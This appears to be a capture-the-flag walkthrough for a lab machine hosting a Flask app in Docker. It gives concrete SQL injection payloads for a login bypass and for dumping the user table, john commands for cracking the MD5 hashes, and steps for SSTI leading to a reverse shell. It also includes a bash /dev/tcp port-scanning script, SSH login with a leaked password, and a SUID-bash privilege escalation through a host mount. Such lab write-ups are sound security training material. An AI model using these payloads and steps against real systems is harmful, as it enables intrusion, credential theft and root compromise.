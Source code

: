 1. Enumerate ports

2. Obtain information about the page hosted in that IP with the command whatweb

3. Try to enumerate more info with the Nmap script http-enum

4. Once you've tried to enumerate everything in the web-app you can now try to do somethings in the page itself

5. The first thing you can try is to do an SQL injection in the login page by sending a normal email and intercept the request in order to change the normal email into an SQL query like this: hello@hello.com' or 1=1 -- -

6. This sends you to the admin control page but it requests you a password in order to enter the flask management panel

7. Once you've exploited the login this way you can try another way by adding " ' order by 4-- -" or other numbers until you hit the maximum number of columns

8. Now you can try to insert numbers by adding ' union select 1, 2, 3, 4 

9. You'll see that the number 4 reflects in the server response, so, you can now try to exploit it via a [SSTI - Server Side Template Injection](<General Info/Tecnologias Web/Ataques/SSTI - Server Side Template Injection.md>) attack

10. As a PoC send something like ' union select 1, 2, 3, {{7\*7}}-- -

11. Because this didn't work out as expected now you can try a common SQL injection enumeration like:
	`' union select 1, 2, 3, table_name from information_schema.tables-- -` - List all tables from all DBs
	`' union select 1, 2, 3, schema_name from information_schema.schemata-- -` - List all DBs
	`' union select 1, 2, 3, table_name from information_schema.tables where table_schema = "main"-- -` - List all tables from the main DB
	`' union select 1, 2, 3, column_name from information_schema.columns where table_schema = "main" and table_name = "user"-- -` - List all the columns from the main DB and the user table
	`' union select 1, 2, 3, {name or id or password or email} from user where {name or id or password or email} = {"admin" or 1}-- -` - List all the content of the user table 1 by 1
	`' union select 1, 2, 3, group_concat(id,":",name,":",password,":", email) from user where {search criteria}-- -` - List all the content of the user table one user per line

12. Once you've obtained the password hashed you can try to identify it with hash-identifier and try to crack it

13. The way to crack it is by running the following command: john --wordlist=__{WORDLIST}__ hash --format=Raw-MD5

14. Now that you've got the password you can finally enter the flask admin panel

15. Going into the page you will come across the used edit panel that has the interesting name parameter that is susceptible to a SSTI attack

16. Try to run the attack to gain remote code execution, and eventually a reverse shell, listed in [SSTI - Server Side Template Injection](<General Info/Tecnologias Web/Ataques/SSTI - Server Side Template Injection.md>).

17. Now that you've a reverse-shell you can see if you're already in the victim's machine by using the command "hostname -I"

18. Now that we know we are in a container we can try to list interesting IPs with `route -n` 

19. Because there is an IP that ends with 1 we have to hack it to enter in the original user machine

20. Use `mount` to see all the mounts in docker and figure out that the directory that contains the flag is, indeed, a mount from the user's machine to the home directory

21. In this machine particularly you can see with `mount | grep home` that the /dev/sda1 is being mounted in /home/augustus

22. One of the last steps is to write a script to enumerate all the open ports in the victim's original machine by creating an script that does the same job as nmap:

```
#!/bin/bash

function ctrl_c(){
        echo -e "\n\n[-] Exiting...\n"
        tput cnorm; exit 1
}

trap ctrl_c INT

tput civis
for port in $(seq 1 65535); do
        timeout 1 bash -c "echo '' > /dev/tcp/172.19.0.1/$port" 2>/dev/null && echo "[+] Port $port open" &
done;wait
tput cnorm
```

22.1 - Basic explanation of the script above:

function ctrl_c : Is the function called if the program detects an INT signal such as "Ctrl + C", basically what this function does is echo out a message, make the mouse reappear and exit with a 1 in the exit code. 1 in the exit code is unsuccessful and 0 successful

trap ctrl_c INT : tell the app that when it recieves an INT signal execute the specified function

tput civis and tput cnorm : This command are basically to tell the app to disappear and appear the mouse respectively

for port in $(seq 1 65535); do : This part of the script tells the app to make the port variable have the the value 1, 2, 3, etc..

timeout 1 : Tells the app to kill the process if its duration is more than 1 second

bash -c "__{COMMAND}__" : Makes the bash shell execute the following command

echo ' ' > /dev/tcp/{IP}/$port : Sends an empty string to the machine in the ip specified and in the port that the port variable has that cycle

2>/dev/null : Tells the app to redirect all the error messages to /dev/null

&& echo "\[+] Port $port open" & : Makes the script only run the message if the exit code of the echo is 0. The final & makes the app use multiple threads to run the process of discovering ports

done; wait : done is to tell the app to finish the for iteration and wait is to make the app wait till the end of all the active threads

23. Now that we've created the shell file we can run the following command to make the shell convert the file into base64 and copy it into the clipboard to later on paste it in the victim's machine. The console command is explained in [Pass files easily from one shell to other](<General Info/Shell/Pass files easily from one shell to other.md>).

24. We've seen that the port 22 is open, so, because we've some credentials we can try to enter in the SSH service of the main machine with the user leaked in the mount "augustus" with the following command: `ssh augustus@172.19.0.1` and try the password "superadministrator" later on

25. We've gained access so we now can list all the machine to see if we're finally on the machine with the following commands `hostname -I` and `ip a`. See [Things to enumerate (Web)](<General Info/Enumeration/Things to enumerate (Machine).md>)

26. After trying a lot of things the way to escalate privileges is to copy the bash to /home/augustus and, from the mount, give that file SUID permissions and make it root property with `chown root:root bash` and `chmod 4755 bash`, enter augustus profile again and run `./bash -p`